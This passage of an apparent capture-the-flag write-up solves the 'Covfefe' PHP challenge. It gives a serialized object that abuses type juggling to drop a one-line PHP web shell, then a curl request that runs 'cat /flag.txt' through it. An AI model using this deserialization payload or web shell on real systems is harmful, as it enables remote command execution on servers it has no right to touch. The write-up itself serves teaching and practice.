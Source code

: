 ```php
php > echo max(0,"1.php");
1.php
```

Therefore we can use a single ```WHEN``` request to drop a PHP shell and read the flag. Here is the serialized object, that will drop a PHP shell:

```
O:7:"Covfefe":4:{
  s:2:"id";s:10:"339481.php";
  s:17:"allowed_additions";a:8:{
    i:0;s:4:"Milk";
    i:1;s:5:"Cream";
    i:2;s:6:"Whisky";
    i:3;s:3:"Rum";
    i:4;s:6:"Kahlua";
    i:5;s:7:"Aquavit";
    i:6;s:7:"Vanilla";
    i:7;s:29:"<?php system($_GET['cmd']);?>";
  }
  s:19:"requested_additions";a:1:{
    i:0;s:29:"<?php system($_GET['cmd']);?>";
  }
  s:4:"time";i:1503323731;
}

```

And recover the Flag:
```
$ curl http://ctf.canthack.me:8889/covfefe/339481.php?cmd=cat+/flag.txt
       |  |    |                             | <- MRMCD{418_C0vf3f3_4ll_0v3r_tH3_W0rld!}
       |  |    |                             |
```


# Files
- [exploit.py](exploit.py)
- [index.php](index.php)

- [Dockerfile](Dockerfile)
- [docker-covfefe.service](docker-covfefe.service)
- [entrypoint.sh](entrypoint.sh)
- [httpd.conf](httpd.conf)
- [setup_httpd.sh](setup_httpd.sh)
- [flag.txt](flag.txt)

